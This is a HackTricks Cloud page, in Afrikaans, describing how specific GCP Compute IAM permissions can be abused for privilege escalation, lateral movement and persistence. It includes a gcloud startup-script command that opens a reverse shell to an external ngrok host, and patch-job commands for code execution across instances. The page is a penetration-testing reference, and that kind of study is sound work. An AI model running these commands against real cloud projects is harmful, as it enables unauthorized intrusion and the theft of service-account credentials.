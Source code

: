 # GCP - Rekenaarvoorregverhoging

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Rekenaar

Vir meer inligting oor Rekenaars en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die voorregverhogingsaanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos die byvoeging van nuwe gebruikers en SSH-sleutels), is dit **nodig dat jy `actAs`-toestemmings oor die SA wat aan die instansie geheg is, het**, selfs as die SA reeds geheg is!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy die **metadata-inligting** van 'n **instansie wysig** en die **geautoriseerde sleutels van 'n gebruiker verander**, of 'n **nuwe gebruiker met sudo-toestemmings skep**. Daarom sal jy in staat wees om via SSH in te tree na enige VM-instansie en die GCP-diensrekening wat die Instansie gebruik, te steel.\
Beperkings:

* Let daarop dat GCP-diensrekeninge wat standaard in VM-instansies loop, 'n **baie beperkte omvang** het
* Jy sal **in staat moet wees om die SSH-bediener te kontak** om in te teken

Vir meer inligting oor hoe om hierdie toestemming uit te buit, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur 'n nuwe aanvangsskrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee dieselfde voorregte as die vorige toestemming, maar oor spesifieke instansies in plaas van 'n hele projek. Dieselfde aanvalle en beperkings as vir die vorige afdeling geld.

### `compute.instances.setIamPolicy`

Hierdie soort toestemming sal jou toelaat om jouself 'n rol te gee met die vorige toestemmings en voorregte te eskaleer deur hulle te misbruik.

### **`compute.instances.osLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal nie root-voorregte binne die instansie hê nie.

### **`compute.instances.osAdminLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal root-voorregte binne die instansie hê.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om 'n virtuele masjien te skep met 'n toegewysde Diensrekening en die token te steel van die diensrekening wat die metadata benader om voorregte daartoe te eskaleer.

Die aanvalskrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) gevind word.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch job of deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal te beweeg in die omgewing en kode-uitvoering te verkry op al die rekenaarinstansies binne 'n projek.

As jy hierdie handmatig wil misbruik, sal jy een van die volgende moet skep: 'n [patch job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) of [deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) vir 'n patch job hardloop:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Om 'n patch deployment te implementeer:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Geoutomatiseerde gereedskap soos [patchy](https://github.com/rek7/patchy) bestaan om lakse toestemmings op te spoor en outomaties lateraal te beweeg.

**Jy kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra toestemmings** tot rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra toestemmings** tot 'n skyf-snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra toestemmings** tot 'n skyf.

### Bypass Toegangsbereik

Volg hierdie skakel om 'n paar [**idees te vind om toegangsbereike te probeer omseil**](../).

### Plaaslike Voorregte-Eskalasie in GCP Rekenaarinstansie

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
